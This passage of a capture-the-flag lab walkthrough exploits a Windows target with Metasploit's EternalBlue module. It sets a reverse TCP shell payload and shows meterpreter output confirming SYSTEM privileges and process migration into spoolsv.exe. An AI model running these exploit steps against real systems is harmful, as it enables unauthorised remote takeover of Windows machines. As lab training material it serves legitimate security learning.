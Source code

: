     exploit/windows/smb/ms17_010_eternalblue

Show options and set the one required value. What is the name of this value? (All caps for submission)

    RHOSTS

Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:

    set payload windows/x64/shell/reverse_tcp

With that done, run the exploit!

    No answer needed

Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target. 

    No answer needed

## Task 3 - Escalate

_Escalate privileges, learn how to upgrade shells in metasploit._

**This whole section of Escalating can be completely skipped and is not like shown in the walk through video. As things have changed in the actual metasploit framework. These are now automatically done.**

We can get confirmation with the `getsystem` and `getuid` commands:

```commandline
meterpreter > getsystem 
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

So we have the user rights of `NT AUTHORITY\SYSTEM` which is perfect.

We can also check with the `getpid` and `ps` commands, and we see that the exploit has been migrated to a very stable `spoolsv.exe` process. The `spoolsv.exe` is a very stable and fast process. In the worst case, if that process crash, it automatically restarts, and we have back control of the target machine:

```commandline
meterpreter > getpid
Current pid: 1312
meterpreter > ps

Process List
============

 PID   PPID  Name                  Arch  Session  User                          Path
 ---   ----  ----                  ----  -------  ----                          ----
 0     0     [System Process]
 4     0     System                x64   0
 416   4     smss.exe              x64   0        NT AUTHORITY\SYSTEM           \SystemRoot\System32\smss.exe
 432   708   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 484   708   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\svchost.exe
 560   552   csrss.exe             x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
 608   552   wininit.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\wininit.exe
 620   600   csrss.exe             x64   1        NT AUTHORITY\SYSTEM           C:\Windows\system32\csrss.exe
```